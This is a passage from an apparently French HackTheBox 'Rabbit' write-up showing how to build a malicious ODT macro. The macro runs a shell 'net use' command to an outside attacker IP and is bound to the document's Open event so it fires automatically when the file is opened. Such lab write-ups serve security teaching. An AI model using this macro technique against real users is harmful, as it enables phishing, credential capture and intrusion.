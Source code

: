 ![HackTheBox Rabbit ODT Macro creation](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/rabbit_new_macro.jpg)

On place alors une macro avec un nom quelconque, par exemple :  

```plain
Sub RogerRabbit
    Shell("net use x: \\10.10.15.90")
End Sub
```

Il faut ensuite ferme la fenêtre d'édition des Macros et aller dans *Tools > Customize* puis :  

1. Sélectionner l’événement *Open Document*
2. Cliquer sur Macro
3. Choisir notre module
4. Et la macro
5. S'assurer que c'est enregistré dans le fichier

![Rabbit HackTheBox assign macro to open document event](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/rabbit_assign_load_macro.png)
